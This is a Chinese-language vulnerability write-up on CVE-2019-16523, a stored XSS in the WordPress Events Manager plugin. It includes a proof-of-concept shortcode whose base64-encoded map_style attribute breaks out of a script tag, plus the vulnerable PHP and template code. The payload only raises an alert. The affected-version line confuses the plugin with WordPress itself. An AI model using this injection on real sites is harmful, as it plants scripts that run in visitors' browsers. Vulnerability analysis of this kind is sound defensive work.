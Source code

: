 ```yaml
---
title: "（CVE-2019-16523）WordPress Plugin - Events Manager 储存型xss"
id: zhfly3253
---
```


# （CVE-2019-16523）WordPress Plugin - Events Manager 储存型xss

## 一、漏洞简介

WordPress的5.9.5版以上的事件管理器插件（又名“事件管理器”）容易受到存储的XSS的影响，这是由于编码不正确和插入提供给该插件提供的短码属性map_style（locations_map和events_map）的数据所致。

## 二、漏洞影响

wordpress <= 5.9.5

## 三、复现过程

### 1、利用过程

要利用此漏洞，攻击者需要创建或编辑帖子并插入上面提到的短代码之一。在此示例中，我们使用locations_map简码并将属性设置 map_style为的base64编码值

```
{"a":"test\"</script><script>alert(1)</script>"}。 
```

这将导致以下简码：

```
[locations_map test="" map_style="eyJhIjoidGVzdFwiPC9zY3JpcHQ+PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0PiJ9Cg=="] 
```

然后可以将该短代码插入到帖子中，然后由恶意用户发布。任何访问该职位的人都会受到有效载荷的影响，因此是XSS攻击的受害者。

### 2、详细分析

Events Manager插件提供了用于创建地图小部件的短代码，例如用于显示事件的位置。通过map_style使用简码中的属性提供自定义样式，可以直观地调整这些地图。为了防止XSS ，在shortcode属性内使用HTML 受到限制。但是，在这种情况下，可以注入任意HTML和JavaScript，因为该 map_style属性需要一个以base64编码的JSON对象。这允许绕过消毒。简码locations_map和events_map受此问题影响：

在em-shortcode.php（第43-56行），我们可以看到该属性是经过base64解码的，然后使用json_decode进行了解析。如果JSON语法有效，则将删除空格并将对象作为map_json_style变量传递到模板。请参见下面的代码段：

```
//add JSON style to map
$style = '';
if( !empty($args['map_style']) ){
    $style= base64_decode($args['map_style']);
    $style_json= json_decode($style);
    if( is_array($style_json) || is_object($style_json) ){
        $style = preg_replace('/[\r\n\t\s]/', '', $style);
    }else{
        $style = '';
    }
    unset($args['map_style']);
}
ob_start();
em_locate_template('templates/map-global.php',true, array('args'=>$args, 'map_json_style' => $style)); 
```

在templates/templates/map-global.php（第16-21行）中，变量无需进一步编码即可插入脚本标签内：

```
<script type="text/javascript">
    if( typeof EM == 'object'){
        if( typeof EM.google_map_id_styles != 'object' ) EM.google_map_id_styles = [];
        EM.google_map_id_styles['<?php echo $args['random_id']; ?>'] = <?php echo $map_json_style; ?>;
    }
</script> 
```

这样就完美的构成了xss payload